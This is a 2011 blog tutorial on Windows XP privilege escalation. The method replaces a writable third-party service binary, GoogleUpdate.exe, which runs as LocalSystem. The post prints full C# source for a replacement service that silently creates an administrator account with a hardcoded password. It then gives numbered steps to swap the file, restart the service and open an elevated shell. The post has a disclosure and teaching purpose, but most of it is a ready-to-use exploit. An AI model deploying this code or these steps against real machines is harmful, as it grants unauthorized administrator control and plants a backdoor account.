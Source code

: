 ```yaml
---
layout: blog-post
title: "Privilege escalation on Windows using Service Hijacking"
excerpt: "Privilege escalation on Windows using Service Hijacking"
disqus_id: /2011/09/23/privilegeescalation/
location: New Delhi, India
time: 11:00 PM
categories:
- Privilege Escalation
- Windows
---
```


This article is a tutorial on how to trick Windows XP into giving you system privileges using Service hijacking. There have been other previlege escalation methods which are no longer useable:

* [Escalation using at command] (http://h0bbel.p0ggel.org/windows-xp-privilege-escalation-exploit-no-it-isnt)
* [Escalation using Utilman.exe](http://technet.microsoft.com/en-us/security/bulletin/ms04-019)

Microsoft Windows services, formerly known as NT services, enable you to create long-running executable applications that run in their own Windows sessions. These services can be automatically started when the computer boots, can be paused and restarted, and do not show any user interface. Each service executes in the security context of a user account.

You can specify one of the following special accounts instead of specifying a user account for the service:

* [LocalService](http://msdn.microsoft.com/en-us/library/ms684188.aspx)
* [NetworkService](http://msdn.microsoft.com/en-us/library/ms684272.aspx)
* [LocalSystem](http://msdn.microsoft.com/en-us/library/ms684190.aspx)

LocalSystem has extensive privileges on the local computer, and acts as the computer on the network. Its token includes the NT AUTHORITY\SYSTEM and BUILTIN\Administrators SIDs; these accounts have access to most system objects. 

If you open *services.msc* you can see many Windows services running with **LocalSystem** account. Most of the Windows services run under the process svchost.exe by supplying different command line parameters to it. Now imagine what will happen if we replace svchost.exe with our own custom *svchost.exe* having malicious code. This file replacement will result in privelege escalation and execution of exploit code. This can even happen remotely if you are able to connect to remote machine and replace *svchost.exe*. Fortunately, *svchost.exe* and many of the Windows critical executables are protected by [Windows File Protection] (http://en.wikipedia.org/wiki/Windows_File_Protection)

![](/images/Blog/services.png)  

However, depending on your computer configuration, there will be some other 3rd party services which have been installed and run under the different process. For example, in the screenshot below there is a service called **Google Update service** which runs under LocalSystem account in the process **GoogleUpdate.exe**. This process is generally called from this location **C:\Program Files\Google\GoogleUpdate.exe**.

![](/images/Blog/gpupdate.png)  

Now, even as a restricted user, nobody is stopping me from deleting or replacing this file. If we replace this **GoogleUpdate.exe** with the malicious one, no file integrety check on part of OS or Google Update Services is being performed. This makes the system vulnerable to be exploited since we can run any malicious code under System account simply by replacing this file, which can be done as restricted user.

![](/images/Blog/gservice.png)  

Here is a simple Windows Service code which produces the executable called **GoogleUpdate.exe** , creates a user and adds it to the Administrators group.

{% highlight csharp %}
namespace Google.MakeAdmin.Exploit
{
    using System;
    using System.Diagnostics;
    using System.ServiceProcess;
    using System.DirectoryServices;

    public partial class MakeAdmin : ServiceBase
    {
        private readonly string sSource;
        private readonly string sLog;        

        /// <summary>
        /// Initializes a new instance of the <see cref="MakeAdmin"/> class.
        /// </summary>
        public MakeAdmin()
        {
            InitializeComponent();
            sSource = "Google.MakeAdmin.Exploit";
            sLog = "Application";
        }

        /// <summary>
        /// When implemented in a derived class, executes when a Start command is sent to the service by the 
        /// Service Control Manager (SCM) or when the operating system starts (for a service that starts automatically). 
        /// Specifies actions to take when the service starts.
        /// </summary>
        /// <param name="args">Data passed by the start command.</param>
        protected override void OnStart(string[] args)
        {
            if (!EventLog.SourceExists(sSource))
            {
                EventLog.CreateEventSource(sSource, sLog);
            }


            const string login = "superboy";
            const string password = "pass@word1";
            const string fullName = "Clark Kent";

            CreateUserAccount(login, password, fullName, true, true);

        }

        /// <summary>
        /// When implemented in a derived class, executes when a Stop command is sent to the service by the 
        /// Service Control Manager (SCM). Specifies actions to take when a service stops running.
        /// </summary>
        protected override void OnStop()
        {
        }

        /// <summary>
        /// Creates the user account.
        /// </summary>
        /// <param name="login">The login.</param>
        /// <param name="password">The password.</param>
        /// <param name="fullName">The full name.</param>
        /// <param name="isAdmin">if set to <c>true</c> [is admin].</param>
        /// <param name="isNew">if set to <c>true</c> [is new].</param>
        private void CreateUserAccount(string login, string password, string fullName, bool isAdmin, bool isNew)
        {
            try
            {
                DirectoryEntry dirEntry = new DirectoryEntry("WinNT://" + Environment.MachineName + ",computer");
                DirectoryEntries entries = dirEntry.Children;
                DirectoryEntry newUser = null;
                if (isNew)
                {
                    newUser = entries.Add(login, "user");
                }
                else
                {
                    newUser = entries.Find(login, "user");
                }

                newUser.Properties["FullName"].Add(fullName);
                newUser.Invoke("SetPassword", password);
                newUser.CommitChanges();

                // Remove the if condition along with the else to create user account in "user" group.
                DirectoryEntry grp;
                if (isAdmin)
                {
                    grp = dirEntry.Children.Find("Administrators", "group");
                    if (grp != null)
                    {
                        grp.Invoke("Add", new object[] {newUser.Path});
                    }
                }
                else
                {
                    grp = dirEntry.Children.Find("Guests", "group");
                    if (grp != null)
                    {
                        grp.Invoke("Add", new object[] {newUser.Path});
                    }
                }

            }
            catch (Exception ex)
            {
                EventLog.WriteEntry(sSource, ex.Message);
            }
        }
    }
}
{% endhighlight %}

##Exploting the Service running with LocalSystem Account##

1. Compile the file to generate a new service executable named **GoogleUpdate.exe** and replace it with the original file stored at the location **C:\Program Files\Google\GoogleUpdate.exe**
2. Restart the service. This will cause our exploit code to be executed and a new user will be created in the system with Administrator privileges. In my example, user will have login name *superboy* and password *pass@word1*.
3. Try to run the command prompt with the credentials of new user.
![](/images/Blog/runcmd.png)

![](/images/Blog/login.png)

4. The command prompt executed is under the credentials of superboy and has superuser access.

The exploit code can be downloaded from [this](https://github.com/madhur/Google.MakeAdmin.Exploit) github repository.


